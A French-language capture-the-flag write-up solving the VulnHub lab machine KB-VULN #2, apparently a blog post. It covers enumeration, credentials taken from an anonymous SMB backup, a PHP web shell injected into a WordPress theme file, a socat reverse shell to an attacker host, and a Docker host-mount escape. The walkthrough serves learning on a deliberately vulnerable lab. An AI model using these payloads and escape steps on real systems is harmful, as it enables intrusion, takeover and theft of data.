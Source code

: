```yaml
---
title: Solution du CTF KB-VULN #2 de VulnHub
tags: [CTF, VulnHub]
---
```


2 Rapides
---------

Voici donc [la suite](https://www.vulnhub.com/entry/kb-vuln-2,562/) du précédent CTF de la série.  

Un scan de port remonte du Samba et du Apache :  

```
Nmap scan report for 192.168.56.6
Host is up (0.00032s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:99:01:23:fe:c4:84:ef:14:55:87:da:a3:30:6f:50 (RSA)
|   256 cb:8e:e1:b3:3a:6e:64:9e:0f:53:39:7e:18:9d:8b:3f (ECDSA)
|_  256 ec:3b:d9:53:4a:5a:f7:32:f2:3a:f7:a7:6f:31:87:52 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:03:F4:A4 (Oracle VirtualBox virtual NIC)
Service Info: Host: UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: UBUNTU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2021-12-07T12:23:16
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: kb-server
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: kb-server
```

Sur le serveur web on trouve via énumération des dossiers un wordpress installé. Le module *wp\_enum* de *Wapiti* détecte quelques plugins et thèmes mais rien de critique :  

```
[*] Lancement du module wp_enum
Enumération des extensions WordPress :
akismet 4.1.6 détecté
----
Enumération des thèmes WordPress :
twentytwenty 1.5 détecté
twentyseventeen  détecté
twentynineteen 1.7 détecté
```

Avec l'aide de *wpscan* j'obtiens la version du Wordpress :  

```
[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.6/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.6/wordpress/, Match: 'WordPress 5.5.1'
```

Là encore rien de critique. Direction Samba sur lequel on trouve un disque partagé avec une archive zip :  

```bash
$ smbclient  -U "" -N -L //192.168.56.6

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      OPEN YOUR EYES!
        IPC$            IPC       IPC Service (Samba Server 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available

$ smbclient  -U "" -N //192.168.56.6/Anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 17 12:58:56 2020
  ..                                  D        0  Wed Sep 16 12:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 12:58:56 2020

                14380040 blocks of size 1024. 8346256 blocks available
smb: \> lcd /tmp
smb: \> get backup.zip
getting file \backup.zip of size 16735117 as backup.zip (80905,3 KiloBytes/sec) (average 80905,4 KiloBytes/sec)
```

A l'intérieur on trouve entre autres un fichier *remember\_me.txt* avec le contenu suivant :  

```
Username:admin
Password:MachineBoy141
```

Il y a aussi les identifiants de base de données dans la configuration du Wordpress :  

```php
define( 'DB_NAME', 'wordpress_db' );                                                                                   

/** MySQL database username */                                                                                         
define( 'DB_USER', 'kb_vuln' );                                                                                        

/** MySQL database password */                                                                                         
define( 'DB_PASSWORD', 'hellelujah' );
```

Le mot de passe *MachineBoy141* ne permet pas un accès sur SSH / SMB mais permet d'accéder à la zone d'administration du Wordpress.  

La technique habituelle consiste à éditer un fichier PHP via l'interface de Wordpress. On peut éditer les fichiers des thèmes installés mais tous ne permettent pas la modification (en raison des permissions sur les fichiers).  

Finalement j'ai édité le fichier *wp-content/themes/twentynineteen/404.php* pour y mettre le code suivant au début :  

```php
if (isset($_GET["cmd"])) { echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; }
```

2 Furieux
---------

D'après les interfaces réseau on est dans un Docker :  

```
3: docker0:  mtu 1500 qdisc noqueue state DOWN group default 
 link/ether 02:42:21:e3:e8:8c brd ff:ff:ff:ff:ff:ff
 inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
 valid\_lft forever preferred\_lft forever
```

*socat* est présent alors j'en profite pour récupérer un reverse shell avec PTY.  

Côté attaquant : 
```bash
socat file:`tty`,raw,echo=0 TCP-L:4242
```

Côté victime : 
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

En réutilisant les identifiants SQL je fouille dans le serveur MySQL local mais je ne trouve rien d'intéressant.  

Il y a un utilisateur *kbadmin* sur la machine et il utilise le même mot de passe que le Wordpress (*MachineBoy141*) on peut accéder au compte via la commande *su*.  

On peut se connecter aussi directement via SSH mais le service est dans le container donc aucun gain.  

L'utilisateur a des autorisations *sudo* pour passer root :  

```
kbadmin@kb-server:/$ sudo -l
[sudo] password for kbadmin: 
Matching Defaults entries for kbadmin on kb-server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kbadmin may run the following commands on kb-server:
    (ALL : ALL) ALL

root@kb-server:~# cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
```

Toutefois on est toujours dans le container, il est temps de s'échapper. Là encore on va employer une technique classique d'escalade de privilèges via Docker consistant à monter le disque de l'hôte dans le container.  

[Voir ici](https://www.trendmicro.com/en_us/research/19/l/why-running-a-privileged-container-in-docker-is-a-bad-idea.html) pour plus d'informations sur les risques de lancer un container Docker avec privilèges.  

Mon problème est que la VM n'a pas d'accès Internet, je ne peux donc pas faire un simple Docker pull. A la place je vais créer une archive d'une image Alpine Linux pour la copier ensuite dans la VM.  

```bash
$ docker pull alpine
Using default tag: latest
latest: Pulling from library/alpine
59bf1c3509f3: Pull complete 
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Downloaded newer image for alpine:latest
docker.io/library/alpine:latest

$ docker images -a
REPOSITORY          TAG       IMAGE ID       CREATED        SIZE
alpine              latest    c059bfaa849c   12 days ago    5.58MB

$ docker save --output alpine.tar c059bfaa849c
```

Ensuite je charge l'image et l'exécute en montant le */root* de l'hôte :  

```bash
kbadmin@kb-server:~$ docker load --input alpine.tar
8d3ac3489996: Loading layer [==================================================>]  5.866MB/5.866MB
Loaded image ID: sha256:c059bfaa849c4d8e4aecaeb3a10c2d9b3d85f5165c66ad3a4d937758128c4d18

kbadmin@kb-server:~$ docker run -it -v /root:/real_root sha256:c059bfaa849c4d8e4aecaeb3a10c2d9b3d85f5165c66ad3a4d937758128c4d18
/ # ls /
bin        dev        etc        home       lib        media      mnt        opt        proc       real_root  root       run        sbin       srv        sys        tmp        usr        var
/ # ls /real_root/
flag.txt
/ # cd /real_root/
/real_root # cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
```

Evalal'travail !  


*Published December 08 2021 at 12:07*
